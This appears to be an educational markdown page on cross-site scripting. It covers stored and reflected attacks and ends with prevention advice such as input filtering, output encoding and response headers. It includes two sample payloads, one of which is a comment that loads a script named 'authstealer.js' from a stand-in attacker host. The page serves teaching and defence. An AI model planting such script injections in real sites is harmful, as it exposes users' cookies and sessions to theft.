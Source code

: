 ## XSS (Cross Site Scripting)

XSS attacks are a type of injection in which malicious scripts are injected into benign/trusted websites. Occurs when an attacker uses a vulnerable web application to send malicious code, generally in the form of browser side script, to end users. This can happen anywhere when a web application uses input within the output it generates without validating or encoding it.

Browsers have no way to know that the script should not be trusted and hence, will execute script. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. Allows the attacker to carry out any actions the user is able to perform.

<img src="./assets/XSS.png">

## XSS Types

### Stored (Persistent)

Stored XSS occurs when a malicious script is injected directly into a vulnerable web application and permanently stored. Most frequent targets are websites that allow users to share content/comments/messages (blogs, videos, social networks). Each time the infected page is viewed, the malicious script is transmitted to the victim's browser.

For instance, if an e-commerce website allows users to embed HTML in the comments section, the embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code everytime the page is opened.

```
Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.
```

### Reflected

Reflected XSS are those where the injected script is reflected off the web server, such as in an error message, search results, or other response that includes some or all of the input sent to the server as part of the request. Attacks are delivered to victims viat another route, such as an email message or malicious link. The injected code travels to the vulnerable website, which reflects the attack back to the user's browser.

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>

https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

## Prevention/Mitigation

### Filter input on arrival

At the point where user input is received, filter as strictly as possible based on what is expected or valid input.

### Encode data on output

If user-controlled data is output in HTTP responses, encode the output to prevent it from being interpreted as active content.

### Use appropriate response headers

To prevent XSS in HTTP responses that are not intended to contain HTML/JS, can use Content-Type and X-Content-Type-Options headers to ensure browsers interpret responses correctly.
